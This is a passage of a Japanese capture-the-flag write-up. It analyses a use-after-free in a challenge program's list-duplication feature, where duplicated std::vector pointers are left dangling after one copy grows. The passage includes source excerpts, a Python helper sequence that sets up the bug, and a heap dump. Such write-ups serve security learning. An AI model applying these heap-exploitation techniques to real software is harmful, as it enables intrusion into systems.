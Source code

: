 ```c++
      create_list();
      break;
    case 2:
      add_element();
      break;
    case 3:
      view_element();
      break;
    case 4:
      dup_list();
      break;
    case 5:
      remove_list();
      break;
    default:
      break;
    }
  }
  
  return 0;
}
```

Listは次のようになっています。
```c
typedef struct {
  char name[0x70];
  struct vector (std::vector);
} List;
```

脆弱性がなさそうに思えたのでwriteupを読んだところ、dupに脆弱性があるようです。
vectorのアドレスもコピーされるのですが、vectorはサイズが拡張されると一度freeされて新しいサイズでmallocされるのでUAFがあります。
つまり、dupした後にどちらかのvectorを拡張すれば両方に共有されるアドレスがfreeされて新しい領域が作られます。
新しい領域は拡張した方にしか適用されないので、もう一方のアドレスはfreeされたアドレスになっています。
なるほどぉ。

C++のバイナリは読めませんが、要素を追加する際は`push_back`を使っているようです。
次のようなコードを実行した後のヒープの状態を見てみましょう。

```python
create("AAAA") # 0
add(0, 0x1111)
add(0, 0x2222)
dup(0, "BBBB") # 1
```

```
0x557cc6265e70:	0x0000000041414141	0x0000000000000000
0x557cc6265e80:	0x0000000000000000	0x0000000000000000
0x557cc6265e90:	0x0000000000000000	0x0000000000000000
0x557cc6265ea0:	0x0000000000000000	0x0000000000000000
0x557cc6265eb0:	0x0000000000000000	0x0000000000000000
0x557cc6265ec0:	0x0000000000000000	0x0000000000000000
0x557cc6265ed0:	0x0000000000000000	0x0000000000000000
0x557cc6265ee0:	0x0000557cc6265f20	0x0000557cc6265f28
0x557cc6265ef0:	0x0000557cc6265f28	0x0000000000000021
0x557cc6265f00:	0x0000000000000000	0x0000000000000000
0x557cc6265f10:	0x0000000000000000	0x0000000000000021
0x557cc6265f20:	0x0000222200001111	0x0000000000000000
0x557cc6265f30:	0x0000000000000000	0x0000000000000091
0x557cc6265f40:	0x0000000042424242	0x0000000000000000
0x557cc6265f50:	0x0000000000000000	0x0000000000000000
0x557cc6265f60:	0x0000000000000000	0x0000000000000000
0x557cc6265f70:	0x0000000000000000	0x0000000000000000
0x557cc6265f80:	0x0000000000000000	0x0000000000000000
```